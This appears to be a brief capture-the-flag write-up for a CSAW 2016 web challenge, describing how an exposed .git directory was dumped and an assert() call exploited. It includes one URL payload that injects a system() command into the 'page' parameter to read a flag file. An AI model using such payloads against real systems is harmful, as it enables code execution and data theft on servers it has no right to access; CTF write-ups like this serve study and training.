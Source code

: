 # CSAW2016-ctf
I found: http://web.chal.csaw.io:8000/.git/ <br>
And used https://github.com/kost/dvcs-ripper tô get all find. <br>
Then i found the assert() function. <br>
payload: view-source:http://web.chal.csaw.io:8000/?page=%27)%20||%20system(%22cat%20templates/flag.php%22);// <br>

Reference: http://stackoverflow.com/questions/3115559/exploitable-php-functions
